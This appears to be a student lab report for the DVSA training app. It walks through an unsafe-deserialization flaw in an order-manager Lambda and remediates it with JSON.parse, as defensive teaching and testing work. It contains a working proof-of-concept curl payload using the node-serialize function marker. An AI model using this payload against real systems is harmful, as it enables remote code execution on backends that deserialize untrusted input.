# Lesson #09 - Vulnerable Dependencies

## LESSON #9: VULNERABLE DEPENDENCIES - COMPLETE REPORT

## Part 1) Goal and Vulnerability Summary:

This lesson demonstrates how a vulnerable third-party dependency can introduce a critical security weakness into a serverless application. The affected component is the DVSA-ORDER-MANAGER Lambda function, which uses the node-serializer package (version 0.0.4) to deserialize request input. This library is known to allow unsafe deserialization of JavaScript functions, making it directly responsible for enabling remote code execution. The security impact is that any attacker who sends a crafted payload to the API can execute arbitrary code on the backend simply because an unsafe library is included in the dependency chain.





## Part 2) Why This Works / Root Cause

The node-serializer library was designed to serialize and deserialize JavaScript objects including functions. When it encounters special markers in input, it reconstructs and evaluates the function using eval() or similar mechanisms. This behavior is intentional in the library but becomes a critical vulnerability when the library is used with attacker-controlled input. The root cause is therefore a poor dependency choice - using a library that supports function deserialization in a context where the input comes from untrusted external sources (API Gateway requests).

In the DVSA code, the vulnerable lines are:

```text
var req = serialize.unserialize(event.body);
var headers = serialize.unserialize(event.headers);
```

The attacker can embed a malicious function in the event.body, and the unserialize() method will execute it.

## Part 3) Environment and Setup

| Item | Value |
| --- | --- |
| DVSA API URL | https://mxyzynaq7l.execute-api.us-east-1.amazonaws.com/Stage |
| Endpoint tested | /order |
| AWS Region | us-east-1 |
| Lambda function involved | DVSA-ORDER-MANAGER |
| Vulnerable package | node-serializer (version 0.0.4) |
| CloudWatch log group | /aws/lambda/DVSA-ORDER-MANAGER |
| Tools used | AWS CloudShell, curl, AWS CloudWatch, AWS Lambda Console |





## Part 4) Reproduction Steps

#### Step 1 - Identify the vulnerable dependency

In Lambda Console -> DVSA-ORDER-MANAGER -> Code tab, open package.json and confirm node-serializer is listed as a dependency:

```text
"dependencies": {
"node-jose": "2.2.0",
"node-serializer": "0.0.4"
}
```

#### Step 2 - Confirm the library is used on untrusted input

In order-manager.js, lines 8-9 show:

```text
var req = serialize.unserialize(event.body);
var headers = serialize.unserialize(event.headers);
```



#### Step 3 - Send a crafted payload that exploits the library

Using AWS CloudShell, execute the following curl command:

```text
curl -X POST "https://mxyzynaq7l.execute-api.us-east-1.amazonaws.com/Stage/order" \
-H "Content-Type: application/json" \
-H "Authorization: Bearer dummy" \
-d '{"action": "_$$ND_FUNC$$_function(){ console.error(\"MY_PROOF_LESSON_9\"); }()", "cart-id": ""}'
```

#### Response received:

```text
{"message": "Internal server error"}
```



#### Step 4 - Check CloudWatch for proof of execution

Navigate to CloudWatch -> Log groups -> /aws/lambda/DVSA-ORDER-MANAGER -> most recent log stream.



The log confirms the injected function executed:

```text
ERROR MY_PROOF_LESSON_9
```

## Part 5) Evidence and Proof

The CloudWatch log stream confirms that the node-serializer library executed the injected function:

```text
START RequestId: f8dc7f74-8812-4837-bf4b-2e5bd5265948 Version: $LATEST
ERROR MY_PROOF_LESSON_9
END RequestId: f8dc7f74-8812-4837-bf4b-2e5bd5265948
```

The MY_PROOF_LESSON_9 message proves that the vulnerable package evaluated and executed attacker-controlled JavaScript. The entry point was the library itself - without this unsafe dependency, the payload would have been treated as plain text with no execution.

#### Evidence summary:

| Evidence Type | Location | What it Proves |
| --- | --- | --- |
| package.json | Lambda code | Vulnerable dependency exists |
| order-manager.js lines 8-9 | Lambda code | Library used on user input |
| curl command output | CloudShell | API returns 500 error |
| CloudWatch log | /aws/lambda/DVSA-ORDER-MANAGER | Code execution succeeded |




## Part 6) Fix Strategy / Probable Mitigation

The fix is to remove the unsafe deserialization entirely and replace it with safe JSON parsing:

- Primary fix: Replace serialize.unserialize() with the built-in JSON.parse() function
- Why this works: JSON.parse() only handles plain data and never evaluates functions, completely eliminating the attack vector
- Additional hardening: Run npm audit regularly to detect vulnerable packages before deployment
- Long-term strategy: Establish a dependency review process that rejects libraries known to use eval() on untrusted input

Fix location: DVSA-ORDER-MANAGER Lambda function, order-manager.js file, lines 8-9.

## Part 7) Code / Config Changes

File changed: DVSA-ORDER-MANAGER/order-manager.js

#### Before the fix (Vulnerable):

```text
var serialize = require('node-serialize');
exports.handler = (event, context, callback) => {
var req = serialize.unserialize(event.body);
var headers = serialize.unserialize(event.headers);
// ... rest of code
}
```




#### After the fix (Secure):

```text
// var serialize = require('node-serialize'); // Removed - no longer needed
exports.handler = (event, context, callback) => {
var req = typeof event.body === "string" ? JSON.parse(event.body) : event.body;
var headers = typeof event.headers === "string" ? JSON.parse(event.headers) : event.headers;
// ... rest of code (unchanged)
}
```







This eliminates the use of the unsafe deserialization library on attacker-controlled input entirely. The conditional check typeof event.body === "string" ensures robustness even if the event body is already parsed.

## Part 8) Verification After Fix

After deploying the fix, the same injection payload was sent to the API using the same curl command:

```text
curl -X POST "https://mxyzynaq7l.execute-api.us-east-1.amazonaws.com/Stage/order" \
-H "Content-Type: application/json" \
-H "Authorization: Bearer dummy" \
-d '{"action": "_$$ND_FUNC$$_function(){ console.error(\"MY_PROOF_LESSON_9\"); }()", "cart-id": ""}'
```



#### CloudWatch results after fix:

Checking CloudWatch logs for /aws/lambda/DVSA-ORDER-MANAGER shows:

```text
START RequestId: 8429b71e-c7dd-4fdc-88a1-a5b2d91fc0b0
ERROR Invoke Error {"errorType":"TypeError","errorMessage":"Cannot re...
END RequestId: 8429b71e-c7dd-4fdc-88a1-a5b2d91fc0b0
```



#### Key observations after fix:

- The MY_PROOF_LESSON_9 message is completely absent from the logs

- A TypeError occurs because JSON.parse cannot parse the malicious payload (this is expected and safe)

- The Lambda function no longer executes attacker-controlled code

#### Verification summary:

| Test | Before Fix | After Fix |
| --- | --- | --- |
| Malicious payload sent | Code executed | Code rejected |
| MY_PROOF_LESSON_9 in logs | Present | Absent |
| JSON.parse error | No | Yes (safe failure) |

## Part 9) Structured Operation and Security Analysis

#### Table A: Structured Analysis Summary - Table A

| Vulnerability | Intended Rule(s) | Artifacts Used to Infer Rule | Normal Behavior Evidence | Exploit Behavior Evidence |
| --- | --- | --- | --- | --- |
| Vulnerable Dependencies (node-serializer) | All third-party libraries must be safe for use with untrusted input and must not introduce code execution risks | order-manager.js source code, node-serializer library documentation, package.json dependency list, CloudShell curl output, CloudWatch log entries | The order API should safely parse incoming JSON request bodies and route them to appropriate handlers without evaluating any part of the input as code | The node-serializer library evaluated a function embedded in the request body, executing console.error("MY_PROOF_LESSON_9") on the Lambda backend, as shown in CloudWatch logs |

#### Table B: Structured Analysis Summary - Table B

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix (Where) | Applied | Post-Fix Verification |
| --- | --- | --- | --- | --- | --- |
| Vulnerable Dependencies (node-serializer) | A third-party library introduced a code execution path that was never part of the intended application logic. The application trusted the library to safely handle input when in fact the library was designed to evaluate functions using eval() | Accidental misconfiguration (the developer used node-serializer without understanding its function evaluation behavior) | In DVSA-ORDER-MANAGER/order-manager.js lines 8-9, replaced serialize.unserialize() with JSON.parse() with type checking | Yes | The same injection payload produced no code execution. CloudWatch logs show a TypeError from JSON.parse instead of the MY_PROOF_LESSON_9 message, confirming the vulnerable dependency no longer poses a risk |

## Part 10) Takeaway / Lessons Learned

This lesson highlights a fundamental truth in modern software development: security is only as strong as the weakest dependency.

#### Key takeaways:

- One unsafe library can break everything - A single third-party package with insecure design (like node-serializer) can introduce a critical remote code execution vulnerability regardless of how well the rest of the application is written.

- Serverless amplifies the risk - In serverless environments, this is especially dangerous because Lambda functions run with IAM permissions and have access to sensitive cloud resources. An RCE vulnerability in a Lambda function can lead to data exfiltration from DynamoDB, S3, or other services.

- Security must be proactive, not reactive - The fix was simple (replacing one function call), but discovering the vulnerability required knowing that node-serializer was dangerous. Regular dependency scanning would have flagged this package before deployment.

#### Secure design principles that prevent this class of vulnerability:

| Principle | Application |
| --- | --- |
| Careful dependency selection | Research libraries before adding them. Avoid packages known to use eval() on user input. |
| Regular vulnerability scanning | Use npm audit, Snyk, or Dependabot to catch known vulnerabilities. |
| Prefer built-in alternatives | JSON.parse() is safe, native, and requires no third-party dependency. |
| Least privilege for dependencies | If a dependency is only needed for development, install it as devDependency. |

#### Final reflection:

The node-serializer vulnerability (similar to the well-known node-serialize CVE-2017-5941) is a classic example of how a seemingly harmless utility library can become the entry point for a full system compromise. In a production environment, this RCE could have been used to pivot to other AWS services, steal customer data, or disrupt operations. The lesson is clear: audit your dependencies, know what they do, and never trust user input to unsafe deserialization functions.
